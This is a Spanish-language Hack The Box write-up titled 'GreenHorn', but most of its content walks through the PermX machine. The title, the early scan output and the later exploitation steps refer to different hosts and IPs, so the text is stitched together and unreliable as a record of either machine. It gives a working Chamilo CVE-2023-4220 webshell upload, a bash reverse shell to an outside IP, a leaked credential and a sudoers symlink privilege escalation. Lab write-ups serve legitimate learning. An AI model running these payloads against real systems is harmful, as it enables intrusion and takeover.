 ```yaml
---
title: GreenHorn - Hack The Box
date: 2024-10-06
description: Maquina GreenHorn (Easy) de Hack The Box.
categories:
    - Writeups
    - HTB
tags:
    - Linux
    - HTB
    - CTF
    - Easy
    - Seasonal
media_subpath: /assets/img/commons/greenhorn/
image: greenhorn.png
---
```


## Escaneo

```bash
nmap -p- --open -sS -min-rate 5000 -vvv -n -Pn 10.10.11.23 -oG allPorts
```

Puertos abiertos: 22,80,3000,4446,8000

## Análisis

```bash
nmap -sCV -p22,80,3000,4446,8000 10.10.11.25 -oN targeted

22/tcp   open  ssh       OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http      nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  ppp?
4446/tcp open  n1-fwp?
8000/tcp open  http-alt?
```

El puerto 80 da acceso a la web de http://greenhorn.htb, sin nada destacable.

Whatweb tampoco añade mayor información:
```bash
whatweb http://greenhorn.htb

http://greenhorn.htb [302 Found] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.25], RedirectLocation[http://greenhorn.htb/?file=welcome-to-greenhorn], nginx[1.18.0]
http://greenhorn.htb/?file=welcome-to-greenhorn [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.25], MetaGenerator[pluck 4.7.18], Pluck-CMS[4.7.18], Title[Welcome to GreenHorn ! - GreenHorn], nginx[1.18.0]
```

Enumerando con nmap se ven los siguientes directorios sin información relevante:
```bash
nmap --script http-enum -p80 10.10.11.25 -oN webScan
80/tcp open  http
| http-enum: 
|   /admin.php: Possible admin folder
|   /login.php: Possible admin folder
|   /robots.txt: Robots file
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /cwhp/auditLog.do?file=..\..\..\..\..\..\..\boot.ini: Possible CiscoWorks (CuOM 8.0 and 8.5) Directory traversal (CVE-2011-0966) (Windows)
|   /cwhp/auditLog.do?file=..\..\..\..\..\..\..\Program%20Files\CSCOpx\MDC\Tomcat\webapps\triveni\WEB-INF\classes\schedule.properties: Possible CiscoWorks (CuOM 8.0 and 8.5) Directory traversal (CVE-2011-0966) (Windows)
|   /cwhp/auditLog.do?file=..\..\..\..\..\..\..\Program%20Files\CSCOpx\lib\classpath\com\cisco\nm\cmf\dbservice2\DBServer.properties: Possible CiscoWorks (CuOM 8.0 and 8.5) Directory traversal (CVE-2011-0966) (Windows)
|   /cwhp/auditLog.do?file=..\..\..\..\..\..\..\Program%20Files\CSCOpx\log\dbpwdChange.log: Possible CiscoWorks (CuOM 8.0 and 8.5) Directory traversal (CVE-2011-0966) (Windows)
|   /CuteSoft_Client/CuteEditor/Load.ashx?type=image&file=../../../web.config: Cute Editor ASP.NET Remote File Disclosure ( CVE 2009-4665 )
|   /docs/README: Interesting, a readme.
|_  /data/: Potentially interesting folder
```

Enumerando subdominios con wfuzz se ven los siguientes subdominios, del cual se destaca lms:
```bash
wfuzz -c --hl=9 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.permx.htb" http://permx.htb/

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   200        586 L    2466 W     36182 Ch    "www"
000000477:   200        352 L    940 W      19347 Ch    "lms" 
```

## Explotación

http://lms.permx.htb es un LMS (Learning Management System) en Chamilo. Este LMS es vulnerable al [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220) cuyo exploit está disponible en [GitHub](https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS).

Este exploit se basa en subir una WebShell `'<?php echo system($_GET["cmd"])?>'` al directorio vulnerable `http://permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'` para a continuación establecer una Reverse Shell haciendo uso de la WebShell alojada en el directorio `http://permx.htb/main/inc/lib/javascript/bigupload/files/` pasando por GET la Reverse Shell `'#!/bin/bash\nbash -i >& /dev/tcp/{host}/{port} 0>&1'`

De forma manual, sin usar Exploit, es posible explotar la vulnerabilidad creando un fichero para la WebShell en php:
```bash
echo '<?php echo system($_GET["cmd"]); ?>' > webshell_test.php
```

Subiendola al directorio vulnerable del LMS:
```bash
curl -F "bigUploadFile=@webshell_test.php;filename=webshell_test.php" http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported
The file has successfully been uploaded. 
```

Y estableciendo la Reverse Shell a través de la WebShell:
```bash
bash -c "bash -i >& /dev/tcp/10.10.15.23/443 0>&1"
```

Que, al hacer URL encode queda de la siguiente manera:
```http
http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell_test.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.15.23/443 0>%261"
```

Y se gana acceso al sistema como usuario www-data:
```bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ whoami
<ilo/main/inc/lib/javascript/bigupload/files$ whoami                     
www-data
```

## Escalada

### User

Listando los ficheros con permisos de root:

```bash
find / -perm -4000 -user root 2>/dev/null

/usr/bin/mount
/usr/bin/sudo
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Nada destacable.

Listando los ficheros con configuración en el directorio de Chamilo se puede ver un configuration.php:

```bash
find . -name \*conf\* 2>/dev/null

...
./app/config/configuration.php
...
```

Este fichero contiene los datos de conexión de la bbdd:
```bash
www-data@permx:/var/www/chamilo$ cat ./app/config/configuration.php | grep db_user
$_configuration['db_user'] = 'chamilo';
www-data@permx:/var/www/chamilo$ cat ./app/config/configuration.php | grep db_password
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

Listando los usuarios de /home/ se puede ver el usuario "mtz" no accesible desde www-data.

Verificando la reutilización de la contraseña de la bbdd por el usuario mtz, se comprueba que es accesible por ssh.

>Username: mtz   
>Password: 03F6lY3uXAP2bkW8   

Al conectarse se obtiene la User Flag.
```bash
ssh mtz@10.10.11.23
```

### Root

Listando los ficheros en los que el usuario mtz tiene permisos se obtiene el script "/opt/acl.sh":
```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

Este script usa "setfacl" para cambiar los permisos de cualquier fichero en /home/mtz:
```bash
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

El script no permite hacer Path Traversal ya que refleja la opción `"$target" == *..* ` pero no controla los enlaces simbólicos.

Creando un enlace simbólico del fichero /etc/sudoers en /home/mtz:
```bash
ln -s /etc/sudoers /home/mtz/test
```

Y aplicando el script sobre el enlace simbolico se dan permisos de lectura y escritura sobre /etc/sudoers:
```bash
sudo /opt/acl.sh mtz rw /home/mtz/test
```

Lo que permite añadir el permiso de sudo al usuario mtz y convertirse en root:
```bash
vim /home/mtz/test
...
mtz     ALL=(ALL) ALL
...
```

Como root se tiene acceso a la Root Flag.
